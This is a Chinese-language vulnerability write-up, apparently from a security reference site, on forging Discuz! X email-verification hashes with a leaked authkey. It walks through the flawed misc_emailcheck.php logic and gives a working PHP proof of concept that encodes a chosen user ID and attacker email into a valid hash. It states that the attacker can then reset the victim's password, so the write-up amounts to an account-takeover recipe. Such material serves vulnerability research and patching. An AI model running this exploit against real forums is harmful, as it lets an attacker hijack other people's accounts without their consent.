


Discuz! X authkey 重置任意账户邮箱
==================================

一、漏洞简介
------------

需要得到authkey

二、漏洞影响
------------

三、复现过程
------------

当我们申请修改邮箱的时候，我们会受到一封类似于下面这样的邮件。

验证链接类似于

    http://www.0-sec.org/dz3.3/home.php?mod=misc&ac=emailcheck&hash=0eb7yY2wtS1q16Zs2%2BtSkR6w5O%2Fx6jdLbu0FnWbegB8ixs2Y6tfcyAnrvz4yPIE7pKzoqawU0ku47y4F

跟入`/source/include/misc/misc_emailcheck.php` 代码如下：

    <?php
    /**
     *      [Discuz!] (C)2001-2099 Comsenz Inc.
     *      This is NOT a freeware, use is subject to license terms
     *
     *      $Id: misc_emailcheck.php 33688 2013-08-02 03:00:15Z nemohou $
     */
    if(!defined('IN_DISCUZ')) {
        exit('Access Denied');
    }
    $uid = 0;
    $email = '';
    $_GET['hash'] = empty($_GET['hash']) ? '' : $_GET['hash'];
    if($_GET['hash']) {
        list($uid, $email, $time) = explode("\t", authcode($_GET['hash'], 'DECODE', md5(substr(md5($_G['config']['security']['authkey']), 0, 16))));
        $uid = intval($uid);
    }
    // exit($email);
    if($uid && isemail($email) && $time > TIMESTAMP - 86400) {
        $member = getuserbyuid($uid);
        $setarr = array('email'=>$email, 'emailstatus'=>'1');
        if($_G['member']['freeze'] == 2) {
            $setarr['freeze'] = 0;
        }
        loaducenter();
        $ucresult = uc_user_edit(addslashes($member['username']), '', '', $email, 1);
        if($ucresult == -8) {
            showmessage('email_check_account_invalid', '', array(), array('return' => true));
        } elseif($ucresult == -4) {
            showmessage('profile_email_illegal', '', array(), array('return' => true));
        } elseif($ucresult == -5) {
            showmessage('profile_email_domain_illegal', '', array(), array('return' => true));
        } elseif($ucresult == -6) {
            showmessage('profile_email_duplicate', '', array(), array('return' => true));
        }
        if($_G['setting']['regverify'] == 1 && $member['groupid'] == 8) {
            $membergroup = C::t('common_usergroup')->fetch_by_credits($member['credits']);
            $setarr['groupid'] = $membergroup['groupid'];
        }
        updatecreditbyaction('realemail', $uid);
        C::t('common_member')->update($uid, $setarr);
        C::t('common_member_validate')->delete($uid);
        dsetcookie('newemail', "", -1);
        showmessage('email_check_sucess', 'home.php?mod=spacecp&ac=profile&op=password', array('email' => $email));
    } else {
        showmessage('email_check_error', 'index.php');
    }
    ?>

当hash传入的时候，服务端会调用authcode函数解码获得用户的uid，要修改成的email，时间戳。

    list($uid, $email, $time) = explode("\t", authcode($_GET['hash'], 'DECODE', md5(substr(md5($_G['config']['security']['authkey']), 0, 16))));

然后经过一次判断

    if($uid && isemail($email) && $time > TIMESTAMP - 86400) {

这里没有任何额外的判断，在接下来的部分，也仅仅对uid的有效性做了判断，而uid代表这用户的id值，是从1开始自增的。

也就是说，只要authcode函数解开hash值，就能成功的验证并修改邮箱。

这里我们可以直接使用authcode函数来获得hash值

### poc

> 这里需要修改md5(\"authkey\")

    <?php
            //Enter your code here, enjoy!
    function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
        $ckey_length = 4;
        $key = md5($key ? $key : UC_KEY);
        $keya = md5(substr($key, 0, 16));
        $keyb = md5(substr($key, 16, 16));
        $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
        $cryptkey = $keya.md5($keya.$keyc);
        $key_length = strlen($cryptkey);
        $string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
        $string_length = strlen($string);
        $result = '';
        $box = range(0, 255);
        $rndkey = array();
        for($i = 0; $i <= 255; $i++) {
            $rndkey[$i] = ord($cryptkey[$i % $key_length]);
        }
        for($j = $i = 0; $i < 256; $i++) {
            $j = ($j + $box[$i] + $rndkey[$i]) % 256;
            $tmp = $box[$i];
            $box[$i] = $box[$j];
            $box[$j] = $tmp;
        }
        for($a = $j = $i = 0; $i < $string_length; $i++) {
            $a = ($a + 1) % 256;
            $j = ($j + $box[$a]) % 256;
            $tmp = $box[$a];
            $box[$a] = $box[$j];
            $box[$j] = $tmp;
            $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
        }
        if($operation == 'DECODE') {
            if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
                return substr($result, 26);
            } else {
                return '';
            }
        } else {
            return $keyc.str_replace('=', '', base64_encode($result));
        }
    }
    echo authcode("3\ttest@success.com\t1503556905", 'ENCODE', md5(substr(md5("5e684ceqNxuCvmoK"), 0, 16)));

访问hash页面，我们可以看到验证邮箱已经被修改了，接下来我们可以直接通过忘记密码来修改当前用户的密码。

参考链接
--------

> https://lorexxar.cn/2017/08/31/dz-authkey/\#%E6%BC%8F%E6%B4%9E%E8%AF%A6%E6%83%85
